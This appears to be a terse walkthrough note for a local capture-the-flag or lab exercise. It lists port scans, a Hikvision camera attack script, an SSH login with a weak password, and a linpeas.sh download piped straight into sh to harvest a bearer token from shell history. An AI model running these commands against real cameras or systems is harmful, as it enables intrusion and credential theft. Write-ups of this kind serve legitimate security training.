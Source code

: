 1. `nmap -p- 127.0.0.1` -> 8888 (camera)
2. `curl localhost:8888` -> version
3. `py attack-hikvision.py localhost:8888 screenshot; icat screenshot.png`
4. `py attack-hikvision.py localhost:8888 config`
5. `ssh operator@localhost -p 22222` password123
6. `nix-shell -p nmap` `nmap -p- localhost` -> 1880 1883
7. `nmap -p 1883 -sV localhost`
8. .attack.py / `su` `systemctl stop mosquitto..`
9. `curl -L https://github.com/peass-ng/PeASS-ng/releases/latest/download/linpeas.sh | sh` -> BEARER bash_history
10. `curl http://localhost:1880/next -H "Authorization: Bearer $BEARER"`
11. robot *overflow* lock *'secret' password*
